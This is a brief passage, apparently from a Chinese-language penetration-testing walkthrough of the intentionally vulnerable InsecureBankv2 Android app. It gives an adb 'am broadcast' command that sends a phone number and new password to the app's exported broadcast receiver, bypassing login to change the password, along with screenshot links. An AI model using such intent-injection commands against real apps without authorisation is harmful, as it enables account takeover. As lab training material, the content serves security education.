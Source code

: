 ![](img/声明Broadcast%20Receiver的参数2.png)

- 在命令行中打开```adb shell```
- 输入下面的命令（绕过登录直接修改密码）
```
am broadcast -a theBroadcast -n com.android.insecurebankv2/com.android.insecurebankv2.MyBroadCastReceiver --es phonenumber 5554 --es newpass Dinesh@123!
```
![](img/绕过登录直接修改密码.png)